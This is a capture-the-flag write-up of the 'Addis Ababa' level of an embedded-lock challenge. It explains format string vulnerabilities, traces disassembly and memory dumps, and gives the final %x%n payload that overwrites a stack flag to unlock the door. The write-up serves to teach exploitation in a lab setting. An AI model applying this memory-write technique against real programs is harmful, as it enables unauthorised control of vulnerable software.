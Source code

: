 # Addis Ababa

I began by going through the main function and found that the program takes the username and the password as input, copies it to a new location and then checks for the validity.
Also, I didn't fail to notice the use of printf's in this program. The previuos questions generally  used a puts, but this used printfs.

On checking the manual for printf, I found that it takes 4 kinds of format specifiers, s for char*, x for unsigned int, c for a character and n for saving the number of characters printed so far. I felt that this problem might have something to do with a format string vulnerability. So, I tried looking for one.

**An overview of Format string Vulnerability**
A format string contains an ASCIIZ string that contains text and format parameters.

eg.
```
printf("Your answer is %d", number);
```

When the code executes, the format function parses the format string by reading a character at a time. Characters are copied to the output till a % is reached. If a % is encountered, the character just after the % specifies the type of the parameter to be evaluated. This parameter is then fetched from the stack. In this case, it will look for an integer on the stack. So basically, a type is specified for each arguement which is then retirieved accordingly from the stack.
The stack in the previous case looked like:

```
<number>
<Address of format string>
```

An exploit occurs when a format function such as printf is used without these format specifiers.
For eg.
```
printf(userInput)
```

In this case, what if the user inputs a string such as "%x %x %x %x"? This will be interpreted as:

```
printf("%x %x %x %x")
```

A %x is used to represent an unsigned hexadecimal integer. In this case, there are no arguements passed to the printf except the format string. So, when the first %x is encountered, printf looks for an arguement on the stack and prints it. But as there are no arguements passed, it prints whatever value is present at the stack at that location. It can be visualized something like:

```
<Some value>
<Some value>
<Some value>
<Some value>
<Address of format string>
```
So, in this case, all the 4 values on the stack will be printed. This is a way to view the stack by taking the advantage of an incorrectly used format function.


*Overwriting a value at a memory address*

Based on the concept above, most format string exploits are used to overwrite data at user defined locations. The way this works is as follows:

The user inputs a string like:
"Address_To_Overwrite |series of %x| %n"


Here:
Address_To_Overwrite can be an address like /x12/x34/x56/x78.
The %x's cause the stack pointer to move towards the format string.
Then the %n(used to save number of characters written till now) can be used to overwrite the content at the above mentioned address. Visually:

```
%n                          |
%x                          |
%x                          | > User Input
%x                          |
<Address_To_Overwrite>      |
<some value>
<some value>
<some value>
<Address of user input>
```

The trick is to figure out the number of %x to reach to the address where the input string is actually stored. Once we reach the start, we will basically be pointing at the address where we have to overwrite. The %n will then take this address and write the number of characters written till now to it.


### The actual question:

*This is the initial input taking code:*

```
4440:  3012 e644      push	#0x44e6 "Login with username:password below to authenticate.\n"
4444:  b012 c845      call	#0x45c8 <printf>
4448:  b140 1b45 0000 mov	#0x451b ">> ", 0x0(sp)
444e:  b012 c845      call	#0x45c8 <printf>
4452:  2153           incd	sp
4454:  3e40 1300      mov	#0x13, r14
4458:  3f40 0024      mov	#0x2400, r15
445c:  b012 8c45      call	#0x458c <getsn>
```

Once I input the string, it was stored at 0x2400. Next, it got copied via strcpy to 0x3814.

```
4464:  3e40 0024      mov	#0x2400, r14
4468:  0f4b           mov	r11, r15
446a:  b012 de46      call	#0x46de <strcpy>
```

(After the above instructions, r14(0x2400) points to the string I input, r15(0x3814) contains the location of the place where the string will be copied.)

Once copied, the memory looked something like:

```
2400:   6161 6100 0000 0000 0000 0000 0000 0000   aaa.............
2410:   0000 0000 0000 0000 0000 0000 0000 0000   ................
2420:   *
37f0:   4c45 0100 5e45 0000 2000 2000 4446 0000   LE..^E.. . .DF..
3800:   0038 0000 4c45 0000 9645 0200 0024 1300   .8..LE...E...$..
3810:   6e44 0000 6161 6100 0000 0000 0000 0000   nD..aaa.........
```

I had input 'aaa' which can be seen at the two addresses mentioned earlier.

Next, my input is passed to the test_password_valid function which when returns sets r15 to 0.
This value of 0, from r15 is then moved to 0x0(sp). The value of sp was then 0x3812.

After seeing the following code then, I concluded that this program indeed had a format string vulnerabilty.

```
4472:  b012 b044      call	#0x44b0 <test_password_valid>
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>
```

This code pushes r11 on the stack, and the value in r11 at that point was 0x3814, which points to the place where my input was copied.

**That's it.** My input string is the only thing that is being passed to printf. Hence, I can prepare a format string exploit.

Looking further down the code:

```
4476:  814f 0000      mov	r15, 0x0(sp)
447a:  0b12           push	r11
447c:  b012 c845      call	#0x45c8 <printf>
*
448a:  8193 0000      tst	0x0(sp)
448e:  0324           jz	#0x4496 <main+0x5e>
4490:  b012 da44      call	#0x44da <unlock_door>
```

I found that the instruction tst 0x0(sp) caused the control to jump if the value at sp is zero. On continuing the execution, I found that sp points to 0x3812, at the tst instruction.

The string that I input was copied to 0x3814. So, I had to prepare the format string so that it wrote a non zero value at sp or 0x3812.

As explained earlier in the format string exploits section,
first I used an input such as

\x12\x38 |series of %x| to see when I reach the beginning of this string. I saw that using a single %x I was able to reach the beginning of my string. So, next I used a %x followed by a %n to overwrite into the address 0x3812.


I input the hex value of \x12\x38%x%n = 12382578256e

This caused the tst 0x0(sp) to pass and the door unlocked.










